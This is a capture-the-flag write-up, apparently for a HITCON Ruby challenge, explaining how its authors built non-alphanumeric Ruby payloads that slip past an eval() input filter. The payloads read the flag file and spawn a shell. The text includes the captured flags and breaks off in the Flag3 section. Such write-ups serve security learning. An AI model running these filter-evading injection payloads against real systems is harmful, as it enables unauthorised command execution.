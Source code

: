 We can see that:  
  
1. The program will accept an input.  
2. There's a flag at `./flag`.  
3. There's a input length limit which has been assigned as argv[0] since the program started.  
    + For flag 1 ~ 4, the input length limit are 1024/64/36/10 bytes.  
4. You cannot have alphabets and numbers in the input.  
5. If your input pass the length and non-alnum test, it will be the argument of `eval()`  
6. The program print out the result of `eval(input)`  
  
### Flag1 (1024 bytes)  
  
At first, I have no idea about how to write a non-alnum Ruby code, I even don't  write Ruby.  
Until one of my teammates gave a link [Non-Alphanumeric Ruby for Fun and Not Much Else](http://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/).  
After some discussions, try-and-error and with this link [Calling shell commands from Ruby - Stack Overflow](http://stackoverflow.com/questions/2232/calling-shell-commands-from-ruby),  
we came up with `226 bytes` solution for flag1.  
  
```Ruby  
_=$$/$$;__=_-_;@_=_+_;$_=@_+_;$__=@_+$_;@__=$__*$_;`#{''<<($_*@_)*@__+($_*$_)<<($_*@_)*@__+($__+@_)<<($_+$__)*@__-@_*@_<<@__*@_+@_<<@__*$_+_<<@__*$_+@_<<($__+@_)*@__-$_<<($__+@_)*@__+$_<<($_*@_)*@__+($__+@_)<<($__+@_)*@__-@_}`  
```  
  
which equal to  
  
```Ruby  
`#{'cat ./flag'}`  
```  
  
as a string input.  
then we got flag1.  
`hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}`  
  
### Flag2 (64 bytes)  
  
After this, we got stucked with the 64 bytes limitation.  
I came up with calling `sh` to get shell instead of just `cat flag`,  
and one of my teammates found out that `$$` is always `4` on the target server.  
So, we came up with the `61 bytes` solution for flag2.  
  
```Ruby  
$_=$$/$$;@_=($_+$_)*($$+$_);$.=@_*@_+$$;`#{''<<$.+@_+$_<<$.}`  
  
# $_ = 1, @_ = 10, $. = 104, $.+@_+$_ = 115; ascii('s') == 115; ascii('h') == 104;  
# `#{''<<115<<104}` == `#{'sh'}`  
```  
  
After got the shell, just type `cat flag` then `^D` to get the output.  
We got flag2.  
`hitcon{Ruby in Peace m()m}`  
  
### Flag3 (36 bytes)  
  
One of my teammates came up with calling `$0` instead of `sh` to get shell,  
we got the `26 bytes` solution.  
  